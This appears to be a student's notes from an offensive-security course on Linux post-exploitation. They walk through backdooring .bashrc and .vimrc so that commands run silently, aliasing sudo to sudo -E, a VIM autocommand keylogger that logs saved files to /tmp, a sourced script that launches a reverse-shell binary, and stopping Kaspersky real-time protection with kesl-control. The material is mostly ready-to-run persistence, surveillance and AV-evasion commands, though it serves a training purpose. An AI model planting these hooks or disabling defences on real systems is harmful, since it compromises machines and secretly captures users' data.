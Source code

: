 # Linux post exploitation

372

linux is used on server

# user configuration files

dotfiles

.bash_profile and .bashrc - to put environement variables and load scripts whene a user initially logs onto a system

```
 echo "touch /tmp/bashtest.txt" >> ~/.bashrc
```

# VIM Config Simple Backdoor

vimrc in .vimrc file comtains the configuration file for vim

`echo ":echo 'this is a test'" >> .vimrc`

`echo "!touch /tmp/test.txt" >> .vimrc`

we can source a shell script using the bash source command.

we can import other vim configuration files into users cuirrent duir with source command we add silent so that the script is not shown.

`echo ':silent !source ~/.vimrunscript' >> .vimrc`
we create a shell script file /home/offsec/.vimrunscript `echo "hacked" >  /tmp/hacksrcout.txt`

we can add alias into the .bashrc file

`echo 'alias sudo="sudo -E"' >> ~/.bashrc`

`source ~/.bashrc` for making effect the changes

we can look at file permission through 

`sudo -l`


### 10.1.1.1 Exercises
1. Backdoor VIM as described in the module by modifying the user’s .vimrc file directly and 
running a command while silencing the output.

2. Backdoor VIM by adding a script to the VIM plugins folder.

3. Backdoor VIM by sourcing a secondary shell script in the user’s .vimrc file while silencing the 
output.
4. Create an alias for the user for sudo to preserve the user’s environment and activate it by 
sourcing the user’s .bashrc file. Then execute a command as root by running VIM as sudo.
5. Using the linuxvictim user, run VIM via sudo and get a root shell using the :shell command.

all exercises done

### 10.1.1.2 Extra Mile
Get a reverse shell using the above VIM backdoor as root.

```sh
└─$ cat vimrunscript 
#!/bin/bash
echo "hacked" > /tmp/hacksrcout.txt
~/reverse.elf 
```

```sh
┌──(kali㉿kali)-[~]
└─$ cat .vimrc
:silent !source ~/vimrunscript  
```

# vim config keylogger

we leverage autocommands 
:autocmd

`:autocmd BufWritePost * :silent :w! >> /tmp/hackedfromvim.txt`

we can also add it in 

` /home/offsec/.vim/plugin/settings.vim`

we can put an if condition

```
:if $USER == "root"
:autocmd BufWritePost * :silent :w! >> /tmp/hackedfromvim.txt
:endif
```

### 10.1.2.1 Exercises
1. Use an autocommand call to write a simple VIM keylogger and silence it as in this section, 
sourcing it from a separate file than the user’s .vimrc file.

2. Modify the keylogger to only log modified file contents if the user is root

# bypassing AV

linux kaspersky

# Kaspersky Endpoint security

We can turn Kaspersky off using the kesl-control utility. We need to use the --stop-t flag, 
which stops a specified task number

`sudo kesl-control --stop-t 1`

We can turn Kaspersky off using the kesl-control utility. We need to use the --stop-t flag, 
which stops a specified task number. The documentation indicates that real-time protection runs 
as task number 1

`sudo gpg -d eicar.txt.gpg > eicar.txt`

`sudo kesl-control --scan-file ./eicar.txt`

`sudo kesl-control -E --query | grep DetectName`

394

# Shared libraries




